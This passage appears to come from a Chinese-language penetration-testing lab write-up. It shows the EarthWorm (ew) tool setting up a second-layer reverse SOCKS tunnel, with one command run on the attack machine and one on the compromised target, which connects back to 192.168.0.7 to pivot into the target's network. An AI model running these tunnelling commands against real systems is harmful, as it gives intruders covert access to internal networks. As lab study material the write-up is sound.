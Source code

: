 ```cmd
```

*****

### 搭建第二层隧道(2台)

- 使用`ew`与攻击机建立socks连接

```bash
#本机执行
ew_for_Win.exe -s rcsocks -l 1080 -e 1234

#靶机执行
./ew_for_linux64 -s rssocks -d 192.168.0.7 -e 1234
```

![image-20250318135308187](./assets/image-20250318135308187.png)

- 配置代理规则
